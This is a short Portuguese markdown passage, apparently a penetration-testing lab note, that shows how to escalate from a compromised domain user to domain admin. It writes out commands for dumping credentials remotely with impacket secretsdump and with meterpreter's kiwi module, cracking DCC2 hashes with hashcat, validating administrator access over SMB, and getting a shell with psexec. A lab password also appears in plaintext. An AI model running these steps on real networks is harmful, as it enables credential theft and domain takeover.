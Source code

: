 <h1 align="center">Conseguindo Domain Admin</h1>
<hr>

Agora vamos a partir das credenciais da mfernanda tentar chegar a obter os hashes ou as credenciais do administrador, e temos N formas de fazer isso, uma delas seria uma vez com acesso dentro da maquina dela , pesquisar informacoes dentro da maquina ver se as proprias informacoes obtidas no host ja conseguimos encontrar infos sobre os outros usuarios.

Outra forma seria tentar buscar por credenciais de forma remota com impacket

```sh
impacket-secretsdump orionscorp2/mfernanda:'Jesus1999'@172.16.1.253
```

Aqui podiamos obter hashes e infos sobre o servidor.

Temos um outro modulo como `mimikatz` no metasploit e o `kiwi`

```sh
meterpreter > load kiwi
meterpreter > help
meterpreter > creds_all
```

Aqui conseguimos pegar os hashes de dominio , e encontramos o hash do usuario privilegiado.


```ad-hint
DCC2 = Domain Cache Credentials Versao 2 - Sistemas modernos
```

Vamos agora usar o hashcat ou john e tentar quebrar esses hashs

```sh
hashcat -m 2100 hashda /usr/share/wordlist/rockyou.txt --force
```

```sh
john --list=formats
```


Agora uma vez que a gente tem ja as senhas adminitrativas podemos validar as credencias, pra ver ate onde conseguimos ir.

com smbclient

```sh
smbclient -L \\172.16.1.243 -U egabriel -W orionscorp2
smbclient //<IPSERVER>/ADMIN$ -U egabriel -W orionscorp2
```

Agora muito provavel que se rodarmos um psexec no servidor iremos conseguir uma shell la no servidor.